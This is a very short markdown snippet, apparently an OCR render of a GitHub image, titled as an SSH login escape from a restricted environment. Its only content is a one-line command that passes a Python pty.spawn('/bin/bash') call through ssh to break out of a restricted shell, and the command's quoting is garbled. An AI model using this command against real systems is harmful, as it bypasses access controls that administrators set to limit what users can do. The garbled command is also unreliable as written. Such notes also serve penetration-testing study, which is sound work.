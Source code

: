 ```yaml
---
description: Invoke python at ssh login
---
```


# SSH login to access restricted env via escape

`ssh user@host "python -c \"import pty; pty.spawn('/bin/bash")\""`
